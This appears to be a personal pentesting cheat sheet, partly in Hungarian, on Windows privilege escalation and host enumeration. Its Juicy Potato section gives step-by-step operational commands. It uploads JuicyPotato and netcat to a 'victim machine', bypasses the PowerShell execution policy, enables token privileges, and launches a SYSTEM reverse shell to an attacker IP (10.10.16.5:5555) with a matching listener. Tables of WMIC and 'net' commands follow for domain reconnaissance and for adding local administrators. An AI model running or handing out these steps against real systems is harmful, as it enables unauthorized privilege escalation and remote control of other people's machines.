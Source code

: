 # Win privesc techniques
## Juicy Potato
* Needed scripts from github (all of them need to be uploaded to the victim machine)
  * JuicyPotato binaries
    * https://github.com/ohpe/juicy-potato
  * ncat binaries
    * https://github.com/andrew-d/static-binaries/blob/master/binaries/windows/x86/ncat.exe
  * Enable privileges
    * ez nem mukodott
      * https://www.powershellgallery.com/packages/PoshPrivilege/0.3.0.0/Content/Scripts%5CEnable-Privilege.ps1
    * ez mukodott
      * https://www.leeholmes.com/adjusting-token-privileges-in-powershell/
* Eloszor futtassuk a JuicyPotato binary-t uresen. Ki kell hogy adja e help menut.
* Utana parameteresen futtassuk
  * Ha hiba van, erdemes megnezni egyesevel a cmd es nc binary-kat az absolute uttal, hogy jok e
  * Ha COM recv hiba van, akkor masik clsid-t probaljunk meg
    * Minden oprendszer verziohoz kulon vannak, itt talalhatok
      * https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md
    * Valasszuk ki a megfelelo oprendszer verziot, es ott 4-5 darabot probaljunk meg a clsid-k kozul, valamelyiknek mukodnie kell
<pre>
<b># victim machine</b>
PS> Set-ExecutionPolicy -Scope Process -ExecutionPolicy Bypass -Force
PS> Import-Module .\EnableAllTokenPrivs.ps1
PS> Enable-Privilege -Privilege SeAssignPrimaryTokenPrivilege
PS> whoami /priv (most mar elvileg Enabled lett)
PS> .\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\users\public\downloads\nc.exe 10.10.16.5 5555 -e c:\windows\system32\cmd.exe" -t * -c "{03ca98d6-ff5d-49b8-abc6-03dd84127020}"

<b># attack machine</b>
$ nc -nvlp 5555
</pre>
## Host enumeration
### Host enumeration with WMIC
|Command|Description|
|-------|-----------|
|wmic qfe get Caption,Description,HotFixID,InstalledOn|Prints the patch level and description of the Hotfixes applied|
|wmic computersystem get Name,Domain,Manufacturer,Model,Username,Roles /format:List|Displays basic host information to include any attributes within the list|
|wmic process list /format:list|A listing of all processes on host|
|wmic ntdomain list /format:list|Displays information about the Domain and Domain Controllers|
|wmic useraccount list /format:list|Displays information about all local accounts and any domain accounts that have logged into the device|
|wmic group list /format:list|Information about all local groups|
|wmic sysaccount list /format:list|Dumps information about any system accounts that are being used as service accounts.|
### Host enumeration with cmd 'net' command
|Command|Description|
|-------|-----------|
|net accounts|Information about password requirements|
|net accounts /domain|Password and lockout policy|
|net group /domain|Information about domain groups|
|net group "Domain Admins" /domain|List users with domain admin privileges|
|net group "domain computers" /domain|List of PCs connected to the domain|
|net group "Domain Controllers" /domain|List PC accounts of domains controllers|
|net group <domain_group_name> /domain|User that belongs to the group|
|net groups /domain|List of domain groups|
|net localgroup|All available groups|
|net localgroup administrators /domain|List users that belong to the administrators group inside the domain (the group Domain Admins is included here by default)|
|net localgroup Administrators|Information about a group (admins)|
|net localgroup administrators [username] /add|Add user to administrators|
|net share|Check current shares|
|net user <ACCOUNT_NAME> /domain|Get information about a user within the domain|
|net user /domain|List all users of the domain|
|net user %username%|Information about the current user|
|net use x: \computer\share|Mount the share locally|
|net view|Get a list of computers|
|net view /all /domain[:domainname]|Shares on the domains|
|net view \computer /ALL|List shares of a computer|
|net view /domain|List of PCs of the domain|
